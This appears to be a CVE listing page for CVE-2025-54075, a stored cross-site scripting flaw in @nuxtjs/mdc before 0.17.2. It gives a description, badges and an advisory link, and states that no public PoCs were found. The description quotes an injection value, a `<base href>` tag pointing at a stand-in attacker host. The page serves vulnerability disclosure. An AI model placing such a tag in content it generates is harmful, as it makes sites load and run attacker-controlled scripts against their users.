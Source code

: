 ### [CVE-2025-54075](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-54075)
![](https://img.shields.io/static/v1?label=Product&message=mdc&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3C%200.17.2%20&color=brightgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CWE-79%3A%20Improper%20Neutralization%20of%20Input%20During%20Web%20Page%20Generation%20('Cross-site%20Scripting')&color=brightgreen)

### Description

MDC is a tool to take regular Markdown and write documents interacting deeply with a Vue component. Prior to version 0.17.2, a remote script-inclusion / stored cross-site scripting vulnerability in @nuxtjs/mdc lets a Markdown author inject a `<base href="https://attacker.tld">` element. The `<base>` tag rewrites how all subsequent relative URLs are resolved, so an attacker can make the page load scripts, styles, or images from an external, attacker-controlled origin and execute arbitrary JavaScript in the site’s context. Version 0.17.2 contains a fix for the issue.

### POC

#### Reference
- https://github.com/nuxt-modules/mdc/security/advisories/GHSA-cj6r-rrr9-fg82

#### Github
No PoCs found on GitHub currently.

